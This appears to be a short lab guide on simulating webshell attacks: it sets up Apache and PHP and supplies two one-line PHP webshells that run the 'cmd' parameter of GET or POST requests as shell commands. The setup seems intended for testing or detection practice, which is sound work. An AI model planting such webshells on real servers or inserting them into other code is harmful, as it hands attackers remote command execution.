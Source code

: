 # Simulating Webshell Attacks

Webshells are a method of gaining shell access by exploiting web services over HTTP or HTTPS. For an attacker, this is a great avenue for access to a remote server, as web services are designed to be highly available and C2 traffic can blend along with standard website access. When a web server is configured with PHP and allows user uploads, performing a webshell attack can be relatively easy.

## Webserver Configuration

To configure the server, run the following commands to setup Apache and PHP:

```
sudo apt -y update && sudo apt -y install apache2 && sudo apt -y install php
```

Now, populate the web server with the webshell files within `/var/www/html`.

**get_shell.php**
```
<?=`$_GET[cmd]`?>
```

**post_shell.php**
```
<?=`$_POST[cmd]`?>
```

These scripts will pull out the parameter named `cmd` from the HTTP requests and execute it on the command line.